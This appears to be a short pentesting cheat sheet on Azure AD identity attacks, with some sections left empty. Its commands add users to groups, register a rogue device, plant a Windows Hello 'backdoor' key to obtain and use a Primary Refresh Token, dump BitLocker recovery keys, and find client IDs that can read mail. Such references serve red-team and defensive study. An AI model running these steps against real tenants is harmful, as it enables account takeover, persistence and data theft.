 # Azure AD IAM

> Root Management Group (Tenant) > Management Group > Subscription > Resource Group > Resource

* Users
* Devices
* Service Principals (Application and Managed Identities)

## Users

```ps1
```

* Add user to a group
    ```ps1
    $groupid = "<group-id>"
    $targetmember = "<user-id>"
    $group = Get-MgGroup -GroupId $groupid
    $members = Get-MgGroupMember -GroupId $groupid
    New-MgGroupMember -GroupId $groupid -DirectoryObjectid $targetmember
    ```


## Devices

### List Devices

```ps1
Connect-AzureAD
Get-AzureADDevice
$user = Get-AzureADUser -SearchString "username"
Get-AzureADUserRegisteredDevice -ObjectId $user.ObjectId -All $true
```


### Join Devices

* [Enroll Windows 10/11 devices in Intune](https://learn.microsoft.com/en-us/mem/intune/user-help/enroll-windows-10-device)


### Register Devices

```ps1
roadtx device -a register -n swkdeviceup
```


### Windows Hello for Business

```ps1
roadtx.exe prtenrich --ngcmfa-drs-auth
roadtx.exe winhello -k swkdevicebackdoor.key
roadtx.exe prt -hk swkdevicebackdoor.key -u <user@domain.lab> -c swkdeviceup.pem -k swkdeviceup.key
roadtx browserprtauth --prt <prt-token> --prt-sessionkey <prt-session-key> --keep-open -url https://portal.azure.com
```


### Bitlocker Keys

```ps1
Install-Module Microsoft.Graph -Scope CurrentUser
Import-Module Microsoft.Graph.Identity.SignIns
Connect-MgGraph -Scopes BitLockerKey.Read.All
Get-MgInformationProtectionBitlockerRecoveryKey -All
Get-MgInformationProtectionBitlockerRecoveryKey -BitlockerRecoveryKeyId $bitlockerRecoveryKeyId
```


# Service Principals


## Other

Lists all the client IDs you can use to get a token with the `mail.read` scope on the Microsoft Graph:

```ps1
roadtx getscope -s https://graph.microsoft.com/mail.read
roadtx findscope -s https://graph.microsoft.com/mail.read
```


## References

* [Pentesting Azure Mindmap](https://github.com/synacktiv/Mindmaps)
